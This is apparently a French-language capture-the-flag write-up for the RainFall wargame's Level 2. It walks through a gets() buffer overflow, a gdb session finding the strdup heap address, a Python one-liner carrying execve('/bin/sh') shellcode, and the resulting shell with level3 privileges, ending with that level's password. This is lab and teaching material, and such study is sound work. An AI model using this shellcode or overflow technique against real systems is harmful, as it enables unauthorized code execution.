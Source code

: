# **Level 2**

Pour le `level2` c'est la meme idee sauf qu'il n'y a rien dans le code pour lancer un shell, donc on va devoir le lancer par nous meme

```
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}



void main(void)

{
  p();
  return;
}
```

Le but de cet exercice est d'utiliser la heap (pas la stack car elle n'est pas executable ici) pour executer du code que nous allons lui passer en input

Pour ca on utilise comme point d'entree `gets` pour ecrire notre payload et `strdup` pour l'executer

Comme le buffer est assez grand, on peux ecrire notre `shellcode` dedans, donc on cherche un shellcode pour executer execve("/bin/sh")
[ShellStorm](https://shell-storm.org/shellcode/index.html)
[exploit-db](https://www.exploit-db.com/shellcodes)
[HackNDo](https://beta.hackndo.com/buffer-overflow/)

On comble le debut de notre payload par des `nop (\x90)` instruction qui permet de passer a la suivante

Et on fini par overwrite `eip` pour faire pointer l'instruction suivant sur le pointeur que r'envoie `strdup`

> On aura quelque chose de la forme `\x90 * (len(to eip) - len(shellcode)) + shellcode + address de debut`

Pour trouver l'addresse de strdup on utilise gdb

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) b *0x0804853e
Breakpoint 1 at 0x804853e
(gdb) run
Starting program: /home/user/level2/level2 
aaaa
aaaa

Breakpoint 1, 0x0804853e in p ()
(gdb) r i
The program being debugged has been started already.
Start it from the beginning? (y or n) n
Program not restarted.
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6cc	-1073744180
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff71c	0xbffff71c
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804853e	0x804853e <p+106>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/s 0x804a008
0x804a008:	 "aaaa"
```
On peux donc construire notre payload

```
level2@RainFall:/var/crash$ python -c "print '\x90'*35 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x08\xa0\x04\x08'" > /var/crash/lvl2
```

Et on l'execute

```
level2@RainFall:~$ cat /var/crash/lvl2 -| ./level2 
������������������������������������^�1��F�F
                                            �
                                             ���V
                                                 1�����/bin/s�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```

> ### NEXT : [Level 3](/level3/resources/README.md)
